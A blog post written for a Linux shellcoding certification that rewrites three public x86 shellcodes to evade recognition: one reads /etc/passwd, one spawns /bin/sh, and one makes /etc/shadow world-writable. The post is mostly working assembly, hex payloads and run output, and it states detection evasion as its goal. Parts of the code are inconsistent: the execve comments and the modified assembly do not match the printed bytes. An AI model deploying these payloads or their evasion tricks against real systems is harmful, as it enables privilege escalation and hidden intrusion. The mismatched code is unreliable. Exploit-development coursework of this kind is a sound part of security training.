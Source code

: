 ```yaml
---
layout: post
title: SLAE 0x6 - Polymorphism
categories: infosec
---
```


![x86 Assembly Language and Shellcoding on Linux]({{"/content/posts/slae.png" | absolute_url }}){: .center}

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](https://www.pentesteracademy.com/course?id=3).

# Goal

The goal of this assignment is to demonstrate polymorphism by modifying three existing shellcode from [shell-storm.org](http://shell-storm.org/shellcode/) without increasing the shellcode size by 50%.

# Methods

I used radare2 with Cutter for disassembly.

# readpasswd 

This shellcode from *Geyslan* reads 4096 bytes from /etc/passwd and prints it out on the screen. [Original shellcode](http://shell-storm.org/shellcode/files/shellcode-842.php).

For my basic assembly skills, the code looks elegant with little room for optimalization. Thanks to the relocatable and alternative instructions, we can modify the shellcode without expanding the original length of 51 bytes.

    xor  ecx, ecx
    mul  ecx
    mov  al, 5
    push ecx
    push 0x64777373 ; 'sswd'
    push 0x61702f63 ; 'c/pa'
    push 0x74652f2f ; '//et'
    mov  ebx, esp
    int  0x80
    xchg eax, ebx
    xchg eax, ecx
    mov  al, 3
    xor  edx, edx
    mov  dx, 0xfff
    inc  edx
    int  0x80
    xchg eax, edx
    xor  eax, eax
    mov  al, 4
    mov  bl, 1
    int  0x80
    xchg eax, ebx
    int  0x80

    fuzboxz@napalm:~/Learning/SLAE$ ./_shellskeleton
    Shellcode Lenth: 51
	
The first thing that's easy to do is replace all the xor register, register instructions with sub. The effect of this instruction for our purposes is the same, but makes the original shellcode less recognizable.

Another trick to spice up things is to rearrange the slash padding in the command string. It's a small change, but makes the payload a bit different. 

One more trick to save some space and change the shellcode a bit is to leave out the graceful SYS_EXIT syscall. While this makes the program exit with SEGFAULT, the payload still executes and we save 3 bytes, lowering the original size of 51 to 48 bytes.

    ; different null instruction
    sub  ecx, ecx
    mul  ecx
    push ecx

    ; command slash padding reorganized
    push 0x64777373 ; 'sswd'
    push 0x61702f2f ; '//pa'
    push 0x6374652f ; '/etc'
    mov  ebx, esp
    ; rearanged order of instructions
    mov  al, 5
    int  0x80 ; SYS_OPEN

    xchg eax, ebx
    xchg eax, ecx
    mov  al, 3

    ; different null instruction
    sub  edx, edx
    mov  dx, 0xfff
    inc  edx
    int  0x80 ; SYS_READ

    xchg eax, edx
    ; different null instruction
    sub  eax, eax
    mov  bl, 1
    mov  al, 4
    int  0x80 ; SYS_WRITE

    ; Shellcode executes without SYS_EXIT 
    ;xchg eax, ebx
    ;int  0x80 

    fuzboxz@napalm:~/Learning/SLAE$ ./_shellskeleton
    Shellcode Lenth: 48

# execve /bin/sh

A featherweight local /bin/sh shellcode from *ipv* at 21 bytes. [Original shellcode](http://shell-storm.org/shellcode/files/shellcode-575.php).

	int main(){
	 
	char sc[] = "\x6a\x0b" // push byte +0xb
	"\x58" // pop eax
	"\x99" // cdq
	"\x52" // push edx
	"\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
	"\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
	"\x89\xe3" // mov ebx, esp
	"\x31\xc9" // xor ecx, ecx
	"\xcd\x80"; // int 0x80
	 
	((void (*)()) sc)();
	}
	 
	/*
	sc[] = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
	*/
	
To obfuscate the shellcode we can expand some of the instructions so they seem different compared to the original shellcode. First I used different method for nulling out registers, I xor'd eax and moved it's value into the other registers. After that, I used mov instead of push-pop for the execve syscall. The name of the command has also been modified.

    xor eax,eax ; null out eax
    mov edx, eax ; null out edx
    mov al, 0xb ; 11 execve syscall
    mov ecx, eax ; null out ecx
    push edx  ; push null to stack
    push 0x683f2f2f ; "//?h"
    push 0x6e3f3f2f ; "/??n"
    mov ebx, esp ; stores executable path in ebx
    int 0x80 ; init syscall

After compiling and linking we get the following shellcode at 23 bytes:
    "\x31\xc0\x89\xc2\xb0\x0b\x89\xd1\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80"

    slae@slae: ~/SLAE$ ./polyexecve
    Shellcode Length: 23


# chmod /etc/shadow
Simple shellcode by *Kris Katterjohn* that modifies the /etc/shadow permissions to 0666 enabling all users to edit and modify the shadow file. [Original shellcode](http://shell-storm.org/shellcode/files/shellcode-210.php).

    section .text
            global _start
       _start:
         xor edx, edx
         push byte 15
         pop eax
         push edx
         push byte 0x77
         push word 0x6f64
         push 0x6168732f
         push 0x6374652f
         mov ebx, esp
         push word 0666Q
         pop ecx
         int 0x80
         push byte 1
         pop eax
         int 0x80

    slae@slae:~/SLAE$ ./orichmod
    Shellcode Length: 36
	
	section .text

As the shellcode is rather simple, there is limited amount of changes that can be done to make the code more sneaky. First I changed the syscall number to 16 and I decrease it back to 15. The numbers are arbitrary and with math wizardry one might modify it so it looks like an exit syscall instead of a chmod or chown, but for Proof-of-Concept, this is perfectly sufficient. I also changed some of the nulls, so they are less recognizable: I used *cdq* to null out the EDX register and instead of pushing and poping 1 on the stack, I xor out EAX and increment it's value by one for the exit syscall.

	global _start

	_start:

		push byte 16
		pop eax
		sub eax, 1
		cdq

		push byte 0x77
		push word 0x6f64
		push 0x6168732f
		push 0x6374652f
		mov ebx, esp
		push word 0666Q
		mov ecx, edx
		pop ecx
		int 0x80

		xor eax,eax
		add eax, 1	
		int 0x80
	
	
	"\x6a\x10\x58\x83\xe8\x01\x99\x6a\x77\x66\x68\x64\x6f\x68\x2f\x73\x68\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\x68\xb6\x01\x89\xd1\x59\xcd\x80\x31\xc0\x83\xc0\x01\xcd\x80"
    
	slae@slae:~/SLAE$ ./polychmod
    Shellcode Length: 41
	
These small changes made the shellcode less recognizable and only incremented the shellcode size by 13.8%. It would also be possible to remove the exit syscall as well to gain a few more bytes.

# Final Thoughts

I didn't enjoy this assignment, that's is why it took me almost a month to finish it. At the end of the day rewriting someone else's shellcode is an awesome skill to possess, but I don't plan to use it a lot. 

Again, all the code is on my [Github](https://github.com/fuzboxz/SLAE) and if you want to be informed about new posts, just follow me on Twitter at [@fuzboxz](https://twitter.com/fuzboxz).